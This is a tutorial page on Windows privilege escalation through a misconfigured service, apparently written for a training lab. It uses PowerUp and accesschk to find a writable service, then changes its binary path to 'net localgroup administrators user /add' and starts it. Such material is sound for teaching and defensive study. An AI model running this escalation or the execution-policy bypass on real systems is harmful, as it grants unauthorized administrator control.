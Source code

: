 # 🛀 Service Permissions (Paths)

### Escalation via Binary Paths <a href="#lecture_heading" id="lecture_heading"></a>

first open this file in a cmd and type:

<figure><img src="../../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

1. `powershell -ep bypass`: This command starts a PowerShell session with the execution policy set to bypass. The `-ep` parameter stands for "ExecutionPolicy" and allows you to specify the execution policy for the PowerShell session. Setting it to "bypass" allows scripts to run without any restrictions. This is often used when running scripts that may be blocked by more restrictive execution policies.
2. `. .\PowerUp.ps1`: This command executes a PowerShell script named "PowerUp.ps1" located in the current directory. The `.\` prefix specifies the current directory, and the `.` followed by a space before the script filename indicates that the script should be executed in the current session (rather than in a new session). This is known as "dot-sourcing" a script, which means the script's contents are executed within the current scope rather than in a separate scope.
3. `Invoke-AllChecks`: This command invokes a function or cmdlet named "Invoke-AllChecks". This command is likely a part of the "PowerUp.ps1" script that was dot-sourced in the previous step. The purpose of this command is to trigger the execution of a series of checks or tests within the script. These checks could be related to system configuration, security vulnerabilities, or other aspects of the system that the script is designed to assess.

This is very automatic, in a more manual way, you can cd to this directory:

```
cd \Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

1. **accesschk64.exe**: This is an executable file, specifically for 64-bit Windows systems, that is part of the Sysinternals suite of tools developed by Microsoft. The `accesschk` tool is used to view the effective permissions for files, directories, registry keys, or other securable objects in Windows. In this case, `accesschk64.exe` specifically refers to the 64-bit version of the `accesschk` tool.
2. **-uwcv**: These are command-line options or switches that modify the behavior of the `accesschk64.exe` tool. Here's what each of them does:
   * `-u`: Specifies that the output should display user account names associated with the permissions.
   * `-w`: Specifies that the output should display only objects for which the specified user has write access.
   * `-c`: Specifies that the output should include containers, such as directories or registry keys, in addition to objects directly specified.
   * `-v`: Specifies that the output should be verbose, providing additional information about the permissions.
3. **Everyone**: This is a placeholder representing the user or group whose permissions are being checked. In this case, it refers to the "Everyone" group, which includes all user accounts, even those without explicit permission.
4. **\***: This wildcard character is used to specify the resource or object for which permissions are being checked. When used with `accesschk`, it typically means to check permissions for all objects that match the specified criteria. In this context, `*` could refer to all files, directories, registry keys, or other securable objects in the system.

<figure><img src="../../../../.gitbook/assets/image (616).png" alt=""><figcaption><p>Manual method</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (617).png" alt=""><figcaption><p>Automatic method</p></figcaption></figure>

```
accesschk64.exe -wuvc daclsvc
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we got read write for everyone as we can see

since we are part of the `everyone` groupe; we put it in our previous command, but we could've put in any group. Good thing to note is the `change_config` service that we can modify&#x20;

```
sc qc daclsvc
```

1. **sc**: This is the Service Control command-line utility in Windows. It allows you to communicate with the Service Control Manager and services.
2. **qc**: This is an abbreviation for "queryconfig". It instructs `sc` to display the configuration information for the specified service.
3. **daclsvc**: This is the name of the service for which you want to query the configuration information. In this case, it refers to a service named "daclsvc". Services in Windows are background processes that can be automatically started when the system boots or on demand.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see the binary path name, but since we have change\_config enabled we can modify this

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

and you can see that if we start daclsvc, we can see some changes:

```
net localgroup administrators
sc start daclsvc
net localgroup administrators 
```

<figure><img src="../../../../.gitbook/assets/2024-03-19_14-49.png" alt=""><figcaption></figcaption></figure>
